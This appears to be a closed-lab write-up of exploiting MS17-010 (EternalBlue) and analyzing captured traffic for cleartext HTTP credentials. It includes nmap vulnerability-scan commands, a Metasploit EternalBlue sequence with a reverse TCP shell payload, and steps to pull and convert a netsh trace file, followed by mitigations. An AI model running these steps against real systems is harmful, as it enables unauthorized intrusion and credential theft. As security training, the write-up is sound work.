








# MS17-010 (EternalBlue) + Network Traffic Analysis

**Technique:** SMBv1 remote code execution + network forensics  
**Tools:** Nmap, Metasploit, netsh trace, etl2pcapng, Wireshark  
**Environment:** Closed lab network

---

## Objective

- Verify MS17-010 vulnerability on the target host
- Exploit it via Metasploit to obtain a shell
- Capture Windows network traffic (ETL), convert to PCAP, and analyze cleartext HTTP credentials in Wireshark

## Setup

| Role | System |
|------|--------|
| Attacker | Kali Linux |
| Target | Windows with SMBv1 enabled (vulnerable to MS17-010) |
| Victim client | Separate Windows VM visiting the internal web app |
| Tools | Nmap, Metasploit, netsh trace, etl2pcapng, editcap, Wireshark |

---

## Walkthrough

### A) Reconnaissance & Vulnerability Identification

**Nmap — MS17-010 confirmed vulnerable**

```bash
nmap --script smb-vuln* -p 445 192.168.x.x
```



**Metasploit — EternalBlue module search**



**Module options configured**



---

### B) Exploitation

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.x.x
set payload windows/x64/shell_reverse_tcp
exploit
```



---

### C) Network Traffic Capture on Target (Windows)

**Start capture with netsh trace**

```bash
netsh trace start capture=yes tracefile=C:\capture\net_trc.etl level=verbose
```



**Stop and export ETL via SMB**

```bash
netsh trace stop
smbclient //192.168.x.x/share -U Administrator
get net_trc.etl
```



**Convert ETL → PCAP**

```bash
.\etl2pcapng.exe net_trc.etl net_trc.pcapng
editcap -F pcap net_trc.pcapng net_trc.pcap   # optional
```



---

### D) Wireshark Analysis — Cleartext HTTP Credentials

Filtering on `http` and inspecting the POST request reveals plaintext credentials since the application uses HTTP without TLS.



---

## Key Takeaways

- MS17-010 / EternalBlue exploits a critical flaw in SMBv1 enabling unauthenticated remote code execution
- `netsh trace` is useful when Wireshark cannot be installed on the target — ETL files must be converted before analysis
- HTTP without TLS means credentials are fully visible in network captures

## Mitigations

**Host/OS**
- Disable SMBv1 and apply MS17-010 patch (keep OS updated)
- Restrict admin shares; apply principle of least privilege

**Network**
- Segment SMB to necessary zones; block port 445/tcp across segments
- Monitor for EternalBlue-related signatures and indicators

**Application**
- Enforce HTTPS/TLS for all authentication
- Implement MFA and detect unusual login patterns

---

## Disclaimer

Performed in a closed lab environment. Usernames, passwords, tokens, and internal IPs are masked in screenshots.

[← Back to overview](../README.md)
